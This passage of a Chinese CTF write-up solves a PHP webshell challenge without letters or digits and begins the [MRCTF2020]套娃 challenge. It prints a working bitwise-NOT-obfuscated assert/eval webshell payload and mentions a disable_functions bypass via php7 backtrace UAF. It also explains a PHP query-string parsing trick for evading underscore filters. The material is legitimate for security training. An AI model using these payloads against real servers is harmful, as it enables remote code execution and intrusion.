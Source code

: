 考察无字母数字 webshell

php7 环境, 可以直接用取反

```php
<?php
echo urlencode(~"assert");
echo "<br/>";
echo urlencode(~'eval($_REQUEST[1]);');
?>
```

使用 system 执行命令失败了, 估计是开了 disable_functions, 换成了一句话

```
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AD%BA%AE%AA%BA%AC%AB%A4%CE%A2%D6%C4);
```

看一下 phpinfo

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131720790.png)

禁用了一大堆命令执行相关的函数...

蚁剑连接后看到了 flag readflag 两个文件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131719800.png)

直接查看 /flag 为空, 猜测是要运行 readflag 这个命令才行, 所以需要 bypass disable_functions

这里用的是 php7 backtrace UAF

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131722581.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131722031.png)

## [MRCTF2020]套娃

右键源代码

```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

利用的是 php 字符串解析的特性, 之前也遇到过

[https://www.freebuf.com/articles/web/213359.html](https://www.freebuf.com/articles/web/213359.html)

将 `b_u_p_t` 改成 `b.u.p.t`
